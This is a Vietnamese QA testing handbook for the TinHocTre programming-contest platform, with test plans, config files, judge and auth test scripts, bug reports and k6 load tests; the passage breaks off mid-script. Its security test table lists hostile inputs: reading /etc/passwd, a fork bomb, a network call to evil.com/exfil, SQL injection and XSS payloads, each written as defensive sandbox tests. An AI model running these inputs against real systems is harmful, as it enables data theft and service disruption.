



# 🧪 Quy Trình Kiểm Thử QA — TinHocTre Platform

> **Phiên bản:** 1.0  
> **Ngày tạo:** 13/07/2026  
> **Maintainer:** QA Team  
> **Dự án:** TinHocTre — Nền tảng học lập trình & thi đấu Tin học trẻ

---

## Mục Lục

1. [Vai trò QA & Workflow](#1-vai-trò-qa--workflow)
2. [Test Strategy](#2-test-strategy)
3. [Test Cases Mẫu](#3-test-cases-mẫu)
4. [Bug Report Template](#4-bug-report-template)
5. [Regression Test Checklist](#5-regression-test-checklist)
6. [Performance Test Scenarios](#6-performance-test-scenarios)
7. [Security Test Checklist](#7-security-test-checklist)

---

## 1. Vai trò QA & Workflow

### 1.1. Vai trò của QA Tester

| Trách nhiệm | Mô tả |
|---|---|
| **Thiết kế test cases** | Xây dựng bộ test cases cho từng module, đảm bảo bao phủ đầy đủ |
| **Thực thi kiểm thử** | Chạy test thủ công và tự động theo từng sprint |
| **Báo cáo lỗi** | Ghi nhận bug theo template chuẩn, phân loại severity |
| **Regression testing** | Kiểm tra lại các tính năng cũ sau mỗi lần release |
| **Performance & Security** | Đảm bảo hệ thống đáp ứng yêu cầu hiệu năng và bảo mật |
| **Review & Sign-off** | Xác nhận chất lượng trước khi deploy lên production |

### 1.2. QA Workflow tổng quan



### 1.3. QA trong CI/CD Pipeline



---

## 2. Test Strategy

### 2.1. Tổng quan các tầng kiểm thử



### 2.2. Bảng phân loại kiểm thử

| Loại Test | Công cụ | Số Test Cases (dự kiến) | Tự động? | Tần suất | Coverage Target |
|---|---|---|---|---|---|
| **Unit Test** | Vitest | ~400 | ✅ Hoàn toàn | Mỗi commit | ≥ 80% |
| **Integration Test** | Vitest + Supertest | ~150 | ✅ Hoàn toàn | Mỗi PR | ≥ 70% |
| **E2E Test** | Playwright | ~50 | ✅ Hoàn toàn | Mỗi PR / Nightly | Critical paths |
| **Performance Test** | k6, Artillery | ~20 | ✅ Hoàn toàn | Weekly / Pre-release | Theo SLA |
| **Security Test** | OWASP ZAP, npm audit, Snyk, Custom scripts | ~30 | 🔄 Bán tự động | Weekly / Pre-release | OWASP Top 10 |
| **Accessibility Test** | axe-core, Lighthouse | ~25 | ✅ Hoàn toàn | Mỗi PR (UI changes) | WCAG 2.1 AA |
| **Manual / Exploratory** | — | Không cố định | ❌ Thủ công | Mỗi sprint | Edge cases |

### 2.3. Cấu hình Vitest

```typescript
// vitest.config.ts
import { defineConfig } from 'vitest/config';
import path from 'path';

export default defineConfig({
  test: {
    globals: true,
    environment: 'node',
    include: [
      'src/**/*.{test,spec}.{ts,tsx}',
      'tests/unit/**/*.{test,spec}.{ts,tsx}',
      'tests/integration/**/*.{test,spec}.{ts,tsx}',
    ],
    coverage: {
      provider: 'v8',
      reporter: ['text', 'json', 'html', 'lcov'],
      thresholds: {
        global: {
          branches: 70,
          functions: 80,
          lines: 80,
          statements: 80,
        },
      },
      exclude: [
        'node_modules/',
        'tests/',
        '**/*.d.ts',
        '**/*.config.*',
        '**/types/**',
      ],
    },
    setupFiles: ['./tests/setup.ts'],
    testTimeout: 30000,
  },
  resolve: {
    alias: {
      '@': path.resolve(__dirname, './src'),
    },
  },
});
```

### 2.4. Cấu hình Playwright

```typescript
// playwright.config.ts
import { defineConfig, devices } from '@playwright/test';

export default defineConfig({
  testDir: './tests/e2e',
  fullyParallel: true,
  forbidOnly: !!process.env.CI,
  retries: process.env.CI ? 2 : 0,
  workers: process.env.CI ? 1 : undefined,
  reporter: [
    ['html', { outputFolder: 'test-results/e2e-report' }],
    ['json', { outputFile: 'test-results/e2e-results.json' }],
  ],
  use: {
    baseURL: process.env.BASE_URL || 'http://localhost:3000',
    trace: 'on-first-retry',
    screenshot: 'only-on-failure',
    video: 'retain-on-failure',
  },
  projects: [
    {
      name: 'chromium',
      use: { ...devices['Desktop Chrome'] },
    },
    {
      name: 'firefox',
      use: { ...devices['Desktop Firefox'] },
    },
    {
      name: 'mobile-chrome',
      use: { ...devices['Pixel 5'] },
    },
  ],
});
```

---

## 3. Test Cases Mẫu

### 3.1. Module Auth — Xác thực & Phân quyền

| TC-ID | Tên Test Case | Precondition | Steps | Input | Expected Result | Priority |
|---|---|---|---|---|---|---|
| **AUTH-001** | Đăng ký tài khoản thành công | Chưa có tài khoản | 1. POST `/api/auth/register` | `{ "username": "hocsinh01", "email": "hs01@test.com", "password": "Str0ng@Pass!", "role": "student" }` | HTTP 201, trả về `userId`, gửi email xác thực | 🔴 Critical |
| **AUTH-002** | Đăng ký với email đã tồn tại | Email đã được đăng ký | 1. POST `/api/auth/register` với email trùng | `{ "email": "existing@test.com", ... }` | HTTP 409, message: `"Email đã được sử dụng"` | 🟠 High |
| **AUTH-003** | Đăng nhập thành công | Tài khoản đã kích hoạt | 1. POST `/api/auth/login` | `{ "email": "hs01@test.com", "password": "Str0ng@Pass!" }` | HTTP 200, trả về `accessToken` + `refreshToken`, set HttpOnly cookie | 🔴 Critical |
| **AUTH-004** | Đăng nhập sai mật khẩu 5 lần → khóa tạm | Tài khoản active | 1. POST `/api/auth/login` sai 5 lần liên tiếp | Password sai 5 lần | HTTP 429, message: `"Tài khoản bị khóa tạm 15 phút"`, gửi email cảnh báo | 🟠 High |
| **AUTH-005** | Student truy cập API admin → bị chặn | Đăng nhập với role `student` | 1. GET `/api/admin/users` với token student | Bearer token của student | HTTP 403, message: `"Không có quyền truy cập"` | 🔴 Critical |

**Script test mẫu (Vitest + Supertest):**

```typescript
// tests/integration/auth.test.ts
import { describe, it, expect, beforeAll, afterAll } from 'vitest';
import supertest from 'supertest';
import { app } from '@/app';
import { db } from '@/database';

const request = supertest(app);

describe('Auth Module', () => {
  beforeAll(async () => {
    await db.migrate.latest();
    await db.seed.run();
  });

  afterAll(async () => {
    await db.destroy();
  });

  // AUTH-001: Đăng ký tài khoản thành công
  it('should register a new student account', async () => {
    const res = await request.post('/api/auth/register').send({
      username: 'hocsinh01',
      email: 'hs01@test.com',
      password: 'Str0ng@Pass!',
      role: 'student',
    });

    expect(res.status).toBe(201);
    expect(res.body).toHaveProperty('userId');
    expect(res.body.userId).toBeDefined();
  });

  // AUTH-002: Đăng ký email trùng
  it('should reject duplicate email registration', async () => {
    // Đăng ký lần 1
    await request.post('/api/auth/register').send({
      username: 'user1',
      email: 'duplicate@test.com',
      password: 'Str0ng@Pass!',
      role: 'student',
    });

    // Đăng ký lần 2 cùng email
    const res = await request.post('/api/auth/register').send({
      username: 'user2',
      email: 'duplicate@test.com',
      password: 'Str0ng@Pass!',
      role: 'student',
    });

    expect(res.status).toBe(409);
    expect(res.body.message).toContain('đã được sử dụng');
  });

  // AUTH-005: Phân quyền - Student không truy cập được API admin
  it('should deny student access to admin endpoints', async () => {
    // Đăng nhập với student
    const loginRes = await request.post('/api/auth/login').send({
      email: 'student@test.com',
      password: 'StudentPass1!',
    });
    const token = loginRes.body.accessToken;

    // Thử truy cập admin API
    const res = await request
      .get('/api/admin/users')
      .set('Authorization', `Bearer ${token}`);

    expect(res.status).toBe(403);
    expect(res.body.message).toContain('Không có quyền');
  });
});
```

---

### 3.2. Module Judge — Hệ thống chấm bài

| TC-ID | Tên Test Case | Input Code | Input Data | Expected Output | Expected Verdict | Time Limit | Memory Limit |
|---|---|---|---|---|---|---|---|
| **JUDGE-001** | Accepted (AC) — Bài A+B | `#include<stdio.h>`<br/>`int main(){int a,b;`<br/>`scanf("%d%d",&a,&b);`<br/>`printf("%d",a+b);}` | `3 5` | `8` | ✅ **AC** (Accepted) | 1000ms | 256MB |
| **JUDGE-002** | Wrong Answer (WA) — Output sai | `#include<stdio.h>`<br/>`int main(){int a,b;`<br/>`scanf("%d%d",&a,&b);`<br/>`printf("%d",a-b);}` | `3 5` | Expected: `8`, Actual: `-2` | ❌ **WA** (Wrong Answer) | 1000ms | 256MB |
| **JUDGE-003** | Time Limit Exceeded (TLE) — Vòng lặp vô hạn | `#include<stdio.h>`<br/>`int main(){`<br/>`while(1);return 0;}` | `1 2` | (không có output) | ⏱️ **TLE** (Time Limit Exceeded) | 1000ms | 256MB |
| **JUDGE-004** | Memory Limit Exceeded (MLE) — Cấp phát quá mức | `#include<stdlib.h>`<br/>`int main(){`<br/>`malloc(512*1024*1024);`<br/>`return 0;}` | `1` | (không có output) | 💾 **MLE** (Memory Limit Exceeded) | 1000ms | 256MB |
| **JUDGE-005** | Runtime Error (RTE) — Chia cho 0 | `#include<stdio.h>`<br/>`int main(){int a=1/0;`<br/>`printf("%d",a);}` | `1` | (crash) | 💥 **RTE** (Runtime Error) | 1000ms | 256MB |
| **JUDGE-006** | Compilation Error (CE) — Lỗi cú pháp | `#include<stdio.h>`<br/>`int main(){`<br/>`printf("hello")`<br/>`}` _(thiếu `;`)_ | — | (không compile) | 🔴 **CE** (Compilation Error) | — | — |

**Script test mẫu (Vitest):**

```typescript
// tests/integration/judge.test.ts
import { describe, it, expect } from 'vitest';
import { JudgeService } from '@/services/judge.service';

const judge = new JudgeService();

describe('Judge Module — Verdict Tests', () => {
  // JUDGE-001: Accepted
  it('should return AC for correct A+B solution', async () => {
    const result = await judge.evaluate({
      sourceCode: `
        #include<stdio.h>
        int main(){
          int a,b;
          scanf("%d%d",&a,&b);
          printf("%d",a+b);
          return 0;
        }
      `,
      language: 'c',
      testCases: [
        { input: '3 5', expectedOutput: '8' },
        { input: '0 0', expectedOutput: '0' },
        { input: '-1 1', expectedOutput: '0' },
      ],
      timeLimit: 1000,
      memoryLimit: 256,
    });

    expect(result.verdict).toBe('AC');
    expect(result.passedTests).toBe(3);
    expect(result.totalTests).toBe(3);
    expect(result.executionTime).toBeLessThan(1000);
  });

  // JUDGE-003: TLE
  it('should return TLE for infinite loop', async () => {
    const result = await judge.evaluate({
      sourceCode: `
        #include<stdio.h>
        int main(){ while(1); return 0; }
      `,
      language: 'c',
      testCases: [{ input: '1 2', expectedOutput: '3' }],
      timeLimit: 1000,
      memoryLimit: 256,
    });

    expect(result.verdict).toBe('TLE');
  }, 15000); // timeout cao hơn vì phải chờ TLE

  // JUDGE-006: CE
  it('should return CE for syntax errors', async () => {
    const result = await judge.evaluate({
      sourceCode: `
        #include<stdio.h>
        int main(){
          printf("hello")
        }
      `,
      language: 'c',
      testCases: [{ input: '', expectedOutput: 'hello' }],
      timeLimit: 1000,
      memoryLimit: 256,
    });

    expect(result.verdict).toBe('CE');
    expect(result.compileError).toBeDefined();
  });
});
```

---

### 3.3. Module Contest — Cuộc thi

| TC-ID | Tên Test Case | Precondition | Steps | Input | Expected Result | Priority |
|---|---|---|---|---|---|---|
| **CONTEST-001** | Admin tạo cuộc thi thành công | Đăng nhập với role `admin` | 1. POST `/api/contests` | `{ "title": "Tin học trẻ 2026", "startTime": "2026-08-01T09:00:00Z", "duration": 180, "problems": ["prob-1", "prob-2"] }` | HTTP 201, contest được tạo với status `upcoming` | 🔴 Critical |
| **CONTEST-002** | Student đăng ký tham gia cuộc thi | Contest ở trạng thái `upcoming`, user là `student` | 1. POST `/api/contests/:id/register` | `{ "contestId": "contest-123" }` | HTTP 200, user được thêm vào danh sách participants | 🔴 Critical |
| **CONTEST-003** | Nộp bài trong thời gian thi | Contest đang `running`, user đã đăng ký | 1. POST `/api/contests/:id/submit` | `{ "problemId": "prob-1", "code": "...", "language": "cpp" }` | HTTP 200, submission được tạo, judge queue nhận job | 🔴 Critical |
| **CONTEST-004** | Scoreboard freeze 30 phút trước khi kết thúc | Contest đang `running`, còn < 30 phút | 1. GET `/api/contests/:id/scoreboard` | — | Scoreboard hiển thị nhưng các submission sau thời điểm freeze không cập nhật ranking cho public | 🟠 High |
| **CONTEST-005** | Nộp bài sau khi contest kết thúc → bị từ chối | Contest ở trạng thái `ended` | 1. POST `/api/contests/:id/submit` | `{ "problemId": "prob-1", "code": "...", "language": "cpp" }` | HTTP 403, message: `"Cuộc thi đã kết thúc"` | 🟠 High |

---

### 3.4. Module AI Feedback — Phản hồi thông minh

| TC-ID | Tên Test Case | Precondition | Input | Expected Result | Priority |
|---|---|---|---|---|---|
| **AI-001** | Sinh gợi ý cho bài WA | Submission với verdict `WA` | `{ "submissionId": "sub-456", "verdict": "WA" }` | AI trả về gợi ý bằng tiếng Việt, chỉ ra lỗi logic (không cho đáp án), response time < 5s | 🟠 High |
| **AI-002** | Sinh giải thích thuật toán | User yêu cầu giải thích sau khi AC | `{ "problemId": "prob-1", "type": "explain" }` | AI trả về giải thích thuật toán tối ưu, độ phức tạp, có code minh hoạ (pseudocode) | 🟡 Medium |
| **AI-003** | Rate limiting AI requests | User gửi > 10 requests trong 1 phút | 11 requests liên tiếp `/api/ai/feedback` | Request thứ 11: HTTP 429, message: `"Bạn đã gửi quá nhiều yêu cầu. Vui lòng thử lại sau 60 giây"` | 🟠 High |

---

### 3.5. Module Security — Kiểm tra bảo mật Sandbox

| TC-ID | Tên Test Case | Mô tả tấn công | Input Code | Expected Result | Severity |
|---|---|---|---|---|---|
| **SEC-001** | Sandbox Escape — Đọc file hệ thống | Cố đọc `/etc/passwd` từ trong sandbox | `#include<stdio.h>`<br/>`int main(){`<br/>`FILE*f=fopen("/etc/passwd","r");`<br/>`char buf[1024];`<br/>`fgets(buf,1024,f);`<br/>`printf("%s",buf);}` | Verdict: **RTE** hoặc **Restricted**, không trả về nội dung file | 🔴 Critical |
| **SEC-002** | Fork Bomb — Tạo process vô hạn | Cố gắng fork liên tục để crash hệ thống | `#include<unistd.h>`<br/>`int main(){`<br/>`while(1) fork();`<br/>`return 0;}` | Sandbox giới hạn process, verdict: **RTE**, hệ thống host không bị ảnh hưởng | 🔴 Critical |
| **SEC-003** | Network Access — Kết nối ra ngoài | Cố kết nối HTTP ra internet từ sandbox | `import urllib.request`<br/>`urllib.request.urlopen(`<br/>`'http://evil.com/exfil')` | Bị chặn bởi network policy, verdict: **RTE** hoặc timeout | 🔴 Critical |
| **SEC-004** | SQL Injection — Đăng nhập | Inject SQL vào form login | `{ "email": "admin' OR '1'='1", "password": "anything" }` | HTTP 401, không bypass auth, input được sanitize | 🔴 Critical |
| **SEC-005** | XSS — Stored trong tên contest | Inject script vào title contest | `{ "title": "<script>alert('XSS')</script>" }` | Title được escape, không thực thi script khi render, hiển thị dạng text thuần | 🔴 Critical |

---

## 4. Bug Report Template

### 4.1. Template chuẩn

```markdown
## Bug Report

| Trường | Giá trị |
|---|---|
| **ID** | BUG-XXX |
| **Title** | [Mô tả ngắn gọn] |
| **Severity** | Critical / Major / Minor / Trivial |
| **Priority** | P0 / P1 / P2 / P3 |
| **Module** | Auth / Judge / Contest / AI / UI / API |
| **Reporter** | [Tên QA] |
| **Assignee** | [Tên Dev] |
| **Sprint** | Sprint X |
| **Status** | Open / In Progress / Fixed / Verified / Closed |

### Mô tả
[Mô tả chi tiết lỗi]

### Steps to Reproduce
1. [Bước 1]
2. [Bước 2]
3. [Bước 3]

### Expected Result
[Kết quả mong đợi]

### Actual Result
[Kết quả thực tế]

### Environment
- **OS:** [Windows 11 / macOS 14 / Ubuntu 22.04]
- **Browser:** [Chrome 126 / Firefox 128 / Safari 18]
- **API Version:** [v1.2.3]
- **Node.js:** [v20.x]

### Evidence
- Screenshot: [đính kèm]
- Video: [đính kèm]
- Logs: [đính kèm]

### Notes
[Ghi chú thêm nếu có]
```

### 4.2. Bảng phân loại Severity

| Severity | Mô tả | Ví dụ | SLA Fix |
|---|---|---|---|
| 🔴 **Critical** | Hệ thống không hoạt động, mất dữ liệu, lỗ hổng bảo mật | Sandbox escape, DB corruption, auth bypass | < 4 giờ |
| 🟠 **Major** | Tính năng chính không hoạt động, ảnh hưởng nhiều user | Judge trả kết quả sai, không thể nộp bài | < 24 giờ |
| 🟡 **Minor** | Tính năng phụ bị lỗi, có workaround | UI không hiển thị đúng trên mobile, typo trong message | < 1 sprint |
| ⚪ **Trivial** | Cosmetic, không ảnh hưởng chức năng | Khoảng cách padding không đều, màu sắc chênh lệch | Backlog |

### 4.3. Ví dụ Bug Report thực tế

---

#### 🐛 BUG-001: Judge trả verdict AC cho bài có output sai

| Trường | Giá trị |
|---|---|
| **ID** | BUG-001 |
| **Title** | Judge trả verdict AC cho bài có output trailing whitespace khác expected |
| **Severity** | 🔴 Critical |
| **Priority** | P0 |
| **Module** | Judge |
| **Reporter** | Nguyễn Văn QA |
| **Assignee** | Trần Dev A |
| **Sprint** | Sprint 5 |
| **Status** | Open |

**Mô tả:**  
Khi submission output có trailing newline `\n` ở cuối mà expected output không có, judge vẫn trả verdict **AC**. Điều này dẫn đến chấm sai kết quả.

**Steps to Reproduce:**
1. Tạo problem với test case: input `3 5`, expected output `8` (không có `\n` cuối)
2. Submit code C++: `cout << 8 << endl;` (có `\n` cuối)
3. Quan sát verdict

**Expected Result:**  
- Verdict: **AC** (nếu policy là trim whitespace) HOẶC **WA** (nếu policy là strict compare)  
- Cần có cấu hình rõ ràng cho comparison mode

**Actual Result:**  
- Verdict luôn là **AC** bất kể trailing whitespace có khớp hay không
- Không có option để admin chọn comparison mode

**Environment:**
- OS: Ubuntu 22.04 (Docker container)
- API Version: v0.8.2
- Node.js: v20.11.0
- Judge Engine: isolate v1.10

---

#### 🐛 BUG-002: Scoreboard không freeze đúng thời điểm

| Trường | Giá trị |
|---|---|
| **ID** | BUG-002 |
| **Title** | Scoreboard freeze bị trễ 2-5 phút so với cấu hình |
| **Severity** | 🟠 Major |
| **Priority** | P1 |
| **Module** | Contest |
| **Reporter** | Lê Thị QA |
| **Assignee** | Phạm Dev B |
| **Sprint** | Sprint 6 |
| **Status** | In Progress |

**Mô tả:**  
Cấu hình freeze scoreboard 30 phút trước khi contest kết thúc, nhưng thực tế freeze bị trễ 2-5 phút. Submissions trong khoảng trễ này vẫn cập nhật lên public scoreboard.

**Steps to Reproduce:**
1. Tạo contest 3 tiếng, freeze time = 30 phút trước kết thúc
2. Nộp bài ở thời điểm T-29 phút (1 phút sau freeze time)
3. Kiểm tra public scoreboard

**Expected Result:**  
- Submission ở T-29 phút KHÔNG hiển thị trên public scoreboard
- Scoreboard freeze chính xác tại T-30 phút

**Actual Result:**  
- Submission ở T-29 phút VẪN hiển thị trên public scoreboard
- Scoreboard thực sự freeze tại khoảng T-25 đến T-28 phút (không ổn định)

**Environment:**
- OS: Ubuntu 22.04
- Browser: Chrome 126
- API Version: v0.9.1
- Database: PostgreSQL 16

---

#### 🐛 BUG-003: AI Feedback trả response bằng tiếng Anh

| Trường | Giá trị |
|---|---|
| **ID** | BUG-003 |
| **Title** | AI Feedback không nhất quán về ngôn ngữ — trả lời tiếng Anh thay vì tiếng Việt |
| **Severity** | 🟡 Minor |
| **Priority** | P2 |
| **Module** | AI Feedback |
| **Reporter** | Nguyễn Văn QA |
| **Assignee** | Hoàng Dev C |
| **Sprint** | Sprint 7 |
| **Status** | Open |

**Mô tả:**  
Khi user gửi code C++ và nhận feedback từ AI, khoảng 30% response trả về bằng tiếng Anh mặc dù setting ngôn ngữ là tiếng Việt.

**Steps to Reproduce:**
1. Đặt ngôn ngữ giao diện: Tiếng Việt
2. Submit bài C++ với verdict WA
3. Click "Xem gợi ý AI"
4. Lặp lại 10 lần

**Expected Result:**  
- 100% response bằng tiếng Việt

**Actual Result:**  
- ~70% tiếng Việt, ~30% tiếng Anh hoặc mix cả hai
- Lỗi xảy ra nhiều hơn với code C++ (ít xảy ra với Python)

**Environment:**
- OS: macOS 14.5
- Browser: Safari 18.0
- API Version: v0.9.1
- AI Model: GPT-4o-mini

---

## 5. Regression Test Checklist

> **Mục đích:** Đảm bảo các tính năng cũ không bị ảnh hưởng sau mỗi lần release.  
> **Thực hiện:** Trước mỗi release lên Staging và Production.

### 5.1. Checklist tổng hợp (25 items)

| # | Module | Test Item | Loại | Tự động? | Status |
|---|---|---|---|---|---|
| 1 | Auth | Đăng ký tài khoản mới (student, teacher) | Smoke | ✅ | ☐ |
| 2 | Auth | Đăng nhập / Đăng xuất | Smoke | ✅ | ☐ |
| 3 | Auth | Refresh token khi access token hết hạn | Functional | ✅ | ☐ |
| 4 | Auth | Phân quyền: student không truy cập admin API | Functional | ✅ | ☐ |
| 5 | Auth | Reset password qua email | Functional | 🔄 | ☐ |
| 6 | Problem | Tạo problem mới (admin/teacher) | Smoke | ✅ | ☐ |
| 7 | Problem | Upload test cases (input/output) | Functional | ✅ | ☐ |
| 8 | Problem | Hiển thị danh sách problems | Smoke | ✅ | ☐ |
| 9 | Problem | Filter/Search problems theo tag, difficulty | Functional | ✅ | ☐ |
| 10 | Judge | Submit code C/C++ → verdict chính xác | Smoke | ✅ | ☐ |
| 11 | Judge | Submit code Python → verdict chính xác | Smoke | ✅ | ☐ |
| 12 | Judge | Submit code Java → verdict chính xác | Smoke | ✅ | ☐ |
| 13 | Judge | Xử lý TLE, MLE, RTE đúng | Functional | ✅ | ☐ |
| 14 | Judge | Queue xử lý đúng thứ tự FIFO | Functional | ✅ | ☐ |
| 15 | Contest | Tạo contest mới | Smoke | ✅ | ☐ |
| 16 | Contest | Student đăng ký tham gia contest | Smoke | ✅ | ☐ |
| 17 | Contest | Submit bài trong contest | Smoke | ✅ | ☐ |
| 18 | Contest | Scoreboard real-time update | Functional | ✅ | ☐ |
| 19 | Contest | Scoreboard freeze/unfreeze | Functional | ✅ | ☐ |
| 20 | AI | AI Feedback cho bài WA | Functional | 🔄 | ☐ |
| 21 | AI | Rate limiting AI requests | Functional | ✅ | ☐ |
| 22 | UI | Responsive trên mobile (375px) | Visual | 🔄 | ☐ |
| 23 | UI | Dark mode toggle | Visual | 🔄 | ☐ |
| 24 | API | Health check endpoint `/api/health` | Smoke | ✅ | ☐ |
| 25 | API | Rate limiting toàn cục (100 req/min) | Functional | ✅ | ☐ |

### 5.2. Script chạy regression tự động

```bash
#!/bin/bash
# scripts/regression-test.sh
# Chạy toàn bộ regression test suite

set -e

echo "=========================================="
echo "🧪 TinHocTre — Regression Test Suite"
echo "=========================================="
echo "📅 Date: $(date)"
echo "🔖 Version: $(cat package.json | jq -r .version)"
echo ""

# 1. Unit Tests
echo "▶️  [1/5] Running Unit Tests..."
npx vitest run --reporter=verbose tests/unit/ 2>&1 | tee test-results/unit.log
echo ""

# 2. Integration Tests
echo "▶️  [2/5] Running Integration Tests..."
npx vitest run --reporter=verbose tests/integration/ 2>&1 | tee test-results/integration.log
echo ""

# 3. E2E Tests
echo "▶️  [3/5] Running E2E Tests..."
npx playwright test --reporter=html 2>&1 | tee test-results/e2e.log
echo ""

# 4. Security Checks
echo "▶️  [4/5] Running Security Checks..."
npm audit --audit-level=high 2>&1 | tee test-results/security.log
echo ""

# 5. Accessibility Tests
echo "▶️  [5/5] Running Accessibility Tests..."
npx playwright test tests/e2e/accessibility/ --reporter=html 2>&1 | tee test-results/a11y.log
echo ""

echo "=========================================="
echo "✅ Regression Test Suite Complete"
echo "📊 Reports: ./test-results/"
echo "=========================================="
```

---

## 6. Performance Test Scenarios

### 6.1. Performance Targets (SLA)

| Metric | Target | Đo bằng | Ngưỡng cảnh báo |
|---|---|---|---|
| **API Response Time (p95)** | < 200ms | k6 | > 150ms |
| **API Response Time (p99)** | < 500ms | k6 | > 400ms |
| **Judge Execution Time** | < 10s (mỗi submission) | Custom metric | > 8s |
| **Concurrent Submissions** | 100 đồng thời không lỗi | k6 | Error rate > 1% |
| **Page Load Time (FCP)** | < 1.5s | Lighthouse | > 1.2s |
| **Page Load Time (LCP)** | < 2.5s | Lighthouse | > 2.0s |
| **Database Query Time (p95)** | < 50ms | pg_stat_statements | > 40ms |
| **WebSocket Latency** | < 100ms | Custom | > 80ms |
| **Uptime** | ≥ 99.5% | Monitoring | < 99.9% |

### 6.2. Kịch bản test chi tiết

#### Scenario 1: 100 Submissions đồng thời

```javascript
// tests/performance/concurrent-submissions.k6.js
import http from 'k6/http';
import { check, sleep } from 'k6';
import { Rate, Trend } from 'k6/metrics';

const errorRate = new Rate('errors');
const submissionTime = new Trend('submission_time');

export const options = {
  scenarios: {
    concurrent_submissions: {
      executor: 'ramping-vus',
      startVUs: 0,
      stages: [
        { duration: '30s', target: 20 },   // Ramp up
        { duration: '1m', target: 100 },   // Peak: 100 concurrent users
        { duration: '2m', target: 100 },   // Sustain 100 users
        { duration: '30s', target: 0 },    // Ramp down
      ],
      gracefulRampDown: '10s',
    },
  },
  thresholds: {
    http_req_duration: ['p(95)<200', 'p(99)<500'],
    errors: ['rate<0.01'],                  // Error rate < 1%
    submission_time: ['p(95)<10000'],       // Judge < 10s (p95)
  },
};

const BASE_URL = __ENV.BASE_URL || 'http://localhost:3000';

// Login trước để lấy token
export function setup() {
  const loginRes = http.post(`${BASE_URL}/api/auth/login`, JSON.stringify({
    email: 'loadtest@test.com',
    password: 'LoadTest123!',
  }), { headers: { 'Content-Type': 'application/json' } });

  return { token: loginRes.json('accessToken') };
}

export default function (data) {
  const headers = {
    'Content-Type': 'application/json',
    Authorization: `Bearer ${data.token}`,
  };

  // Submit bài A+B
  const payload = JSON.stringify({
    problemId: 'prob-aplusb',
    language: 'cpp',
    code: `
      #include <iostream>
      using namespace std;
      int main() {
        int a, b;
        cin >> a >> b;
        cout << a + b << endl;
        return 0;
      }
    `,
  });

  const startTime = Date.now();
  const res = http.post(`${BASE_URL}/api/submissions`, payload, { headers });
  const elapsed = Date.now() - startTime;

  submissionTime.add(elapsed);

  check(res, {
    'status is 200 or 201': (r) => r.status === 200 || r.status === 201,
    'has submission id': (r) => r.json('id') !== undefined,
    'response time < 200ms': (r) => r.timings.duration < 200,
  });

  errorRate.add(res.status !== 200 && res.status !== 201);

  // Poll cho kết quả judge (tối đa 10s)
  if (res.status === 200 || res.status === 201) {
    const submissionId = res.json('id');
    let verdict = null;
    let pollCount = 0;

    while (!verdict && pollCount < 20) {
      sleep(0.5);
      const statusRes = http.get(
        `${BASE_URL}/api/submissions/${submissionId}`,
        { headers }
      );
      if (statusRes.json('verdict') && statusRes.json('verdict') !== 'PENDING') {
        verdict = statusRes.json('verdict');
      }
      pollCount++;
    }

    check(verdict, {
      'judge returned verdict': (v) => v !== null,
      'verdict is AC': (v) => v === 'AC',
    });
  }

  sleep(1);
}
```

#### Scenario 2: API Endpoint Stress Test

```javascript
// tests/performance/api-stress.k6.js
import http from 'k6/http';
import { check } from 'k6';

export const options = {
  scenarios: {
    // Test từng endpoint riêng biệt
    problems_list: {
      executor: 'constant-rate',
      rate: 50,              // 50 requests/second
      timeUnit: '1s',
      duration: '2m',
      preAllocatedVUs: 50,
      exec: 'testProblemsList',
    },
    contest_scoreboard: {
      executor: 'constant-rate',
      rate: 30,              // 30 requests/second
      timeUnit: '1s',
      duration: '2m',
      preAllocatedVUs: 30,
      exec: 'testScoreboard',
    },
  },
  thresholds: {
    'http_req_duration{scenario:problems_list}': ['p(95)<200'],
    'http_req_duration{scenario:contest_scoreboard}': ['p(95)<300'],
  },
};

const BASE_URL = __ENV.BASE_URL || 'http://localhost:3000';

export function testProblemsList() {
  const res = http.get(`${BASE_URL}/api/problems?page=1&limit=20`);
  check(res, {
    'problems: status 200': (r) => r.status === 200,
    'problems: has data': (r) => r.json('data') !== undefined,
    'problems: response < 200ms': (r) => r.timings.duration < 200,
  });
}

export function testScoreboard() {
